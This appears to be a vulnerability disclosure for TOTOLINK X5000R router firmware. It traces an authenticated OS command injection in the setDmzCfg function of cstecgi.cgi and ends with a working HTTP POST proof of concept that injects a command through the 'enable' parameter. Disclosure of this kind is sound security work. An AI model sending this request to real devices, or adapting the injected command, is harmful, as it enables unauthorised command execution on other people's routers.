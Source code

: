 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setDmzCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setDmzCfg` (at 0x4111CC), binary /cgi-bin/cstecgi.cgi. The parameter `enable` and `port` are passed to 'Uci_set_str' without any check.
![setdmzcfg](image-2.png)
Uci_Set_Str passes the parameter `enable` and `port` as the fourth argument, which is in libcscommon.so. It can be observed that Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image.png)
![uci_set_str2](image-1.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 119
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setDmzCfg", "enable": "`;ls`", "ip": "aaaaa"}
```